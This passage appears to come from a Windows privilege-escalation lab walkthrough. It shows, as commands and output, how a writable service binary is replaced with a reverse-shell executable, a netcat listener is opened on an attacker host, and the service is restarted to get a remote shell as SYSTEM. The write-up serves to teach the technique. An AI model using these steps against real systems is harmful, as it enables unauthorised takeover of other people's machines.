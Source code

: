 Stop the service:

```powershell
C:\Users\user>sc stop "Unquoted VulnService"

SERVICE_NAME: Unquoted VulnService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Users\user>sc qc "Unquoted VulnService"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: Unquoted VulnService
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\VulnService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

Since we have write permissions, we can add our executable in this directory:

```powershell
C:\Users\user>copy C:\Tools\reverse.exe "C:\Program Files\Unquoted Path Service\VulnService.exe"
Overwrite C:\Program Files\Unquoted Path Service\VulnService.exe? (Yes/No/All): Yes
        1 file(s) copied.
```

Set up a listener in the attacker host:

```shell
nc -lvnp 443
```

Restart the service:

```powershell
C:\Users\user>net start "Unquoted VulnService"
```

We have received a reverse shell running as `NT AUTHORITY\SYSTEM`:

```shell
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.27.128] from (UNKNOWN) [192.168.27.129] 50714
Microsoft Windows [Version 10.0.22000.493]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18


```